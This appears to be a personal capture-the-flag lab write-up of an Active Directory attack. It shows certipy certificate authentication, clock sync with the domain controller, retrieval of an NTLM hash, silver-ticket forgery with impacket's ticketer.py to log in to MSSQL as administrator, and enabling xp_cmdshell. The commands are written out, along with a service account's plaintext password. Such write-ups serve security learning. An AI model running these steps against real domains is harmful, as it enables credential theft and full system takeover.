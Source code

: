![[Pasted image 20241217210845.png]]
Surprised this worked bc dates were out of sync with DC. 

Now request #TGT 

`certipy auth -pfx administrator.pfx`

Okay this fails because of clock skew. 

![[Pasted image 20241217211540.png]]
Run 

`sudo ntpdate 10.10.11.202` to sync time with DC

Rerun `certipy auth -pfx administrator.pfx`

and it works. 

![[Pasted image 20241217211804.png]]
Got NTLM hash for the user. 

`aad3b` is just a blank hash.

Now let's go the #silverticket route 

How to forge #TGS tickets (Ticket Granting Service)

You can only use a #TGT with the domain controller. 

How Kerberos works:
![[Pasted image 20241217212240.png]]
1. Need these creds sql_svc `REGGIE1234ronnie` to create NTLM hash because the mssql server only knows NTLM hashes
2. Need domain SID

1. Creating NTLM hash in python...

![[Pasted image 20241217212740.png]]


2. Grabbing domain SID

![[Pasted image 20241217212922.png]]

Now creating the  #silverticket#tgs with `ticketer.py` from #impacket which lets us login to MSSQL as admin 

`ticketer.py -nthash 1443ec19dgdisidsjiweiu -domain-sid S-1-5-21-40784794743-6326754232-23426735 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator` 

![[Pasted image 20241217213434.png]]
then do this 

![[Pasted image 20241217213543.png]]
then do this 

![[Pasted image 20241217213615.png]]
then we can run `enable_xp_cmdshell`
